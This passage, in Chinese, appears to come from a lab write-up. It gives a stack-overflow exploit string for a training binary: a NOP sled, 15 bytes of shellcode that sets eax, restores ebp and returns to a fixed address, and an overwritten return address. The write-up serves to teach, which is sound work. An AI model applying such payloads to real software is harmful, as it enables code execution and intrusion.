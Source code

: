因为每次`ebp`的值都不一样，所以将核心代码移动到字符串的最后其他部分nop(90)就解决了这些冲突。

最后得出答案：

```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
b8 ca 5d 6b 6e          /* movl    $0x6e6b5dca,%eax */
8d 6c 24 18          /* lea    0x18(%esp),%ebp */
68 7b 95 04 08          /* push   $0x804957b */
c3
00 00 00 00
7b 75 68 55
```

buf 大小 0x265=613 字节，攻击代码 15 个字节，因此填充 598 个 nop，加 4 字节任意字符，和 4 字节 ebp 最大地址，也就是返回的地址。
